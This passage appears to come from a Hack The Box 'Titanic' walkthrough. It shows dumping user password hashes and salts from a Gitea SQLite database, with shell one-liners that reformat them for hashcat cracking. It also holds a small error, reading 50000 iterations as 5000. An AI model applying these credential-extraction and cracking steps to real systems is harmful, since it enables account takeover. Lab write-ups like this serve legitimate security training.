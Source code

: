 Ok, I think that the name, passwd, passwd_hash_algo, rands and salt columns are the important thing here, I do a select:
```
sqlite> select name, passwd, passwd_hash_algo, rands, salt from user;
administrator|cba20ccf927d3ad0567b68161732d3fbca098ce886bbc923b4062a3960d459c08d2dfc063b2406ac9207c980c47c5d017136|pbkdf2$50000$50|70a5bd0c1a5d23caa49030172cdcabdc|2d149e5fbd1b20cf31db3e3c6a28fc9b
developer|e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56|pbkdf2$50000$50|0ce6f07fc9b557bc070fa7bef76a0d15|8bf3e3452b78544f8bee9400d6936d34
hacker|99a167607553790050528075f477f2c0a3bc1992c034933e5f2c4755868a52bd8f1d38b3e83221f7c8f4b1a5f7086db74c88|pbkdf2$50000$50|c061de797ce93cf1a944bf327bb523b4|f940fdb3aabaf3e7017d0445b4aef04f
tetarone|5d3100cacd4e68a9b8745239f7b2f24ad3001a22aa151adc46c07eec4fe96ceb4c97ad84a8274b8eaf683362da1f76fa4b3d|pbkdf2$50000$50|8338a4b2efdc4fb2b091fd3999217b0f|181e935cd5c960ae8a58772f299a0167
0xtest|77afe868ff1b7d98ce9415fa2e7a75b61d8fbb658397662b0d252e831fc07798a48d3ef8d9439f6e41fded7a9ac631539e8a|pbkdf2$50000$50|51f118dacf8da0c4d942148f06e2c9e8|ecd1b06a773e17c2a7cc5cd58d2cca07
```

Searching on the internet I stumble upon this post:
- https://0xdf.gitlab.io/2024/12/14/htb-compiled.html#crack-gitea-hash
So I'll just follow the steps they did, trying to understand, obviously.

The hash algorithm is pbkdf2$50000$50, which would mean that the round of iterations is 5000, this means that the hash hash been hashed 5000 times.
Then, we have to pass the hash from hex to base64 to then feed it to hashcat, this is because the example hashes from the official hashcat web uses base64 instead of hexadecimal .
I use the same oneliner used on the post by 0xdf.
```
┌──(oriol㉿zero)-[~/htb/titanic]
└─$ sqlite3 gitea.db "select passwd from user" | while read hash; do echo "$hash" | xxd -r -p | base64; done
y6IMz5J9OtBWe2gWFzLT+8oJjOiGu8kjtAYqOWDUWcCNLfwGOyQGrJIHyYDEfF0BcTY=
5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=
maFnYHVTeQBQUoB19HfywKO8GZLANJM+XyxHVYaKUr2PHTiz6DIh98j0saX3CG23TIg=
XTEAys1OaKm4dFI597LyStMAGiKqFRrcRsB+7E/pbOtMl62EqCdLjq9oM2LaH3b6Sz0=
d6/oaP8bfZjOlBX6Lnp1th2Pu2WDl2YrDSUugx/Ad5ikjT742UOfbkH97XqaxjFTnoo=
```

What this does:
- **sqlite3 gitea.db "select passwd from user"** Sqlite query to select the hash for each user
- **while read hash; do echo "$hash"** For each hash, echo it, this is used to redirect the output of each hash individually to the other commands piped
- **xxd -r -p** to convert to hexadecimal to human redable
- **base64** to finally convert the human readable to base64
- **done** is closing the while loop

And we have converted the hexadecimal hashes to base64.

Now, the next onliner seems complex at first, but instead of selecting only the passwd this time, it selects the passwd, salt and name. Does a while for each line, like on the other oneliner. And then, it separates the different variables with `cut`, does the same procedure with the hash, and finally outputs the 3 variables, with the sha256:50000 string in the middle, formatting it for then feeding it directly to the hashcat. It also stores it on the gitea.hashes file.
```
┌──(oriol㉿zero)-[~/htb/titanic]
└─$ sqlite3 gitea.db "select passwd,salt,name from user" | while read data; do digest=$(echo "$data" | cut -d'|' -f1 | xxd -r -p | base64); salt=$(echo "$data" | cut -d'|' -f2 | xxd -r -p | base64); name=$(echo $data | cut -d'|' -f 3); echo "${name}:sha256:50000:${salt}:${digest}"; done | tee gitea.hashes 
administrator:sha256:50000:LRSeX70bIM8x2z48aij8mw==:y6IMz5J9OtBWe2gWFzLT+8oJjOiGu8kjtAYqOWDUWcCNLfwGOyQGrJIHyYDEfF0BcTY=
developer:sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=
hacker:sha256:50000:+UD9s6q68+cBfQRFtK7wTw==:maFnYHVTeQBQUoB19HfywKO8GZLANJM+XyxHVYaKUr2PHTiz6DIh98j0saX3CG23TIg=
tetarone:sha256:50000:GB6TXNXJYK6KWHcvKZoBZw==:XTEAys1OaKm4dFI597LyStMAGiKqFRrcRsB+7E/pbOtMl62EqCdLjq9oM2LaH3b6Sz0=
0xtest:sha256:50000:7NGwanc+F8KnzFzVjSzKBw==:d6/oaP8bfZjOlBX6Lnp1th2Pu2WDl2YrDSUugx/Ad5ikjT742UOfbkH97XqaxjFTnoo=
```